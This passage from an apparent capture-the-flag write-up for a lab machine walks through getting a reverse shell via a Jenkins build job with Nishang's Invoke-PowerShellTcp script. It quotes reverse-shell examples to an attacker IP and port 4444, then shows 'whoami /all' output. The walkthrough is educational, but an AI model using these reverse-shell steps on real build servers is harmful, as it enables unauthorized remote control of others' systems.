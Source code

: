 > Nishang is a framework of scripts and payloads that enables using PowerShell for offensive security. By using this we can get the shell.

There is a lot of Shell I choose `nishang/Shells/Invoke-PowerShellTcp.ps1` and copied that to my directory.

If we look at the Shell it gives us some of the examples.

```bash
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress 192.168.254.226 -Port 4444
Above shows an example of an interactive PowerShell reverse connect shell. A netcat/powercat listener must be listening on
the given IP and port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Bind -Port 4444
Above shows an example of an interactive PowerShell bind connect shell. Use a netcat/powercat to connect to this port.
.EXAMPLE
PS > Invoke-PowerShellTcp -Reverse -IPAddress fe80::20c:29ff:fe9d:b983 -Port 4444
```

I copied one of the example and changed it to my IP and paste it in bottom of the file.
![18a3e6d578b7a31d0a0e6ae65c413d5d.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/33b27bc32a0647a782026bc6a32f5b38.png)


Started python server in my machine
![2090246c1648e0072a5346050e6fcecb.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/f2f5dd5fcbbe4845b163c07646942ef1.png)
Save

Now by clicking Build Now 
![ss.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/31b219b5af314a2497a41a3c8d9284a6.png)

Our Task will be executed and I got the shell.
![b7b92082e0f61b6fc72c4f484081a5b8.png](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/htb-jeeves/3e19455e84484e089d22f281d77bef13.png)




## Privilege Escalation

`whoami /all` will reveal the complete information about the user.

```ps
PS C:\Users\kohsuke\Desktop> whoami /all

USER INFORMATION
----------------

User Name      SID                                        
============== ===========================================
jeeves\kohsuke S-1-5-21-2851396806-8246019-2289784878-1001


GROUP INFORMATION
-----------------

Group Name                           Type             SID          Attributes                                        
==================================== ================ ============ ==================================================
Everyone                             Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                        Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\SERVICE                 Well-known group S-1-5-6      Mandatory group, Enabled by default, Enabled group
```